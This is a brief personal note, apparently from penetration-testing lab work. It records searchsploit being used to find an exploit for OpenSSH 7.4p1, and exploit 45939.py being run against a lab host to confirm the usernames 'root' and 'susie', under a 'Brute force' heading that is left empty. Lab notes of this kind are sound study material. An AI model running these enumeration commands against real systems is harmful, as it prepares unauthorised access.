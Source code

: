 Attack Vector 1 - SSH

# Searchsploit
`searchsploit OpenSSH 7.4p1`
![9f85dad747df329368997e3b3b0af254.png](:/86c2f57b857647bd9004a9c09966fc99)

## 45939 Exploit
This exploit verifies usernames. We can verify that root and susie are valid login names.

`python 45939.py 10.11.1.146 susie`
![dbbdb355a362c19c7abcf8ac888531f5.png](:/de599586f1414bc29fcab8cb25f222d2)

`python 45939.py 10.11.1.146 root`
![7d72f91a432d94b0f345fcdd9414b329.png](:/6666bb37089a49deb36213408a189120)


# Brute force




id: cc868bb53ed840bbb3d18fe747a1dfed
parent_id: 905fd60ed3b1488db1f90a96122593e4
created_time: 2020-08-30T08:07:36.638Z
updated_time: 2020-09-03T22:18:19.299Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-30T08:07:36.638Z
user_updated_time: 2020-09-03T22:18:19.299Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
